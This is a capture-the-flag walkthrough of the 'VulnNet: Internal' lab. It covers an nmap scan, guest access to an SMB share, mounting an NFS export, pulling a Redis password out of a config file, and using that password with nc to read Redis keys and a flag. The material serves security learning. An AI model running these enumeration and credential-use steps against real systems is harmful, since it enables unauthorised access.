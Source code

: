 # VulnNet : Internal - Easy linux

## IP: 10.10.153.68

## Scanning

### Nmap

**Command**

`nmap -A 10.10.153.68 | tee nmap-scan`

**Output**

```
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp  open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34563/tcp6  mountd
|   100005  1,2,3      36177/udp6  mountd
|   100005  1,2,3      45406/udp   mountd
|   100005  1,2,3      51829/tcp   mountd
|   100021  1,3,4      38760/udp   nlockmgr
|   100021  1,3,4      40599/tcp   nlockmgr
|   100021  1,3,4      45753/tcp6  nlockmgr
|   100021  1,3,4      47061/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp  open     rsync       (protocol version 31)
2049/tcp open     nfs_acl     3 (RPC #100227)
9090/tcp filtered zeus-admin
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m15s, median: 0s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-05-21T14:35:03+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-21T12:35:03
|_  start_date: N/A

```

## Enumeration

We have some smb/nfs stuff to check now. Let's see

### SMB

**Commmand**

`smbclient //10.10.153.68/shares` 

**No password required**

Get file **temp/services.txt**. It contains first flag.

### NFS

Checking NFS export file

`showmount -e 10.10.153.68`

**Output**

`/opt/conf *`

Mounting NFS to a dir

`sudo mount -t nfs 10.10.153.68:/opt/conf nfs_export_list`

checking each directory for some sort of info..... **redis/redis.conf** has something like **requirepass "B65Hx562F@ggAZ@F"**. Could be useful.

### Redis

`Redis is an in-memory data structure store, used as a distributed, in-memory key–value database, cache and message broker, with optional durability.`

- Source Wikipedia

**Default port - 6379**

Trying to connect to redis on port 6379 using: `nc 10.10.153.68 6379`

Command list for redis that can be used:

```
info --> It may return output with information of the Redis instance
AUTH --> used for authenticating with redis
KEYS --> find all keys matching the given pattern
```

1) Command used : `info`

`-NOAUTH Authentication required.`

2) Command used : `auth B65Hx562F@ggAZ@F`

`+OK`

Looks like we are in. Lets see what we can get. A list of supported commands can be found by typing **command** which will return redis commands or use https://redis.io/commands for checking the commands and there usage.

Lets check for keys now: `keys *`

**Output**

```
*5
$3
tmp
$3
int
$8
authlist
$10
marketlist
$13
internal flag
```

The following command results in showing the internal flag: `get "internal flag"`

